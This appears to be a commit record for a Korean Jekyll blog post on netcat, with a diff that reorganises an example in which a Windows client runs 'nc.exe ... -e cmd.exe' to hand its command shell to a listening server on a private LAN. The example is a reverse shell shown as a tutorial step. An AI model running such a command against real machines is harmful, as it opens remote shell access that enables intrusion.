

Before and after one commit to gptjs409/gptjs409.github.io, a Jekyll site: the page built from _posts/infra/2016-09-08-nc.md, in a window 1280 px wide and 900 px high, scrolled down 1782 px. Shown: the whole window, without its empty margins (240-1039 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update 2016-09-08-nc.md

```diff
--- a/_posts/infra/2016-09-08-nc.md
+++ b/_posts/infra/2016-09-08-nc.md
@@ -85,27 +85,25 @@ tags:
 
 ## 예시
 
-- Server : win7 / ip 192.168.10.64
-  <br> Client : win XP / ip 192.168.10.22
+- 다음과 같은 환경 준비
 
-- 서버 및 클라이언트에 nc.exe 설치
+  - Server : win7 / ip 192.168.10.64
+  - Client : win XP / ip 192.168.10.22
 
-- IP 주소 확인
+  - 서버 및 클라이언트에 nc.exe 설치
 
-- Server
+  - IP 주소 확인
+
+- 첫 번째. Server에서 1234포트를 열고 nc.exe를 실행한 후 대기
 
   - C:\\> nc.exe –lvp 1234
 
-  - 1234포트를 열고 nc.exe를 실행한 후 대기
+- 두 번째. Client가 Server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여
 
-- Client
+  - C:\\> nc.exe 192.168.10.64 1234 –e cmd.exe
 
-  - C:\\> nc.exe 192.168.10.64 1234 –e 층.exe
+  - Server는 client의 cmd.exe 권한을 갖게 됨
 
-  - server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여
-
-- Server
-
-  - client의 cmd.exe 권한을 가짐
+- 세 번째. Server는 client의 cmd.exe를 통해 작업을 할 수 있음
 
   - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
```
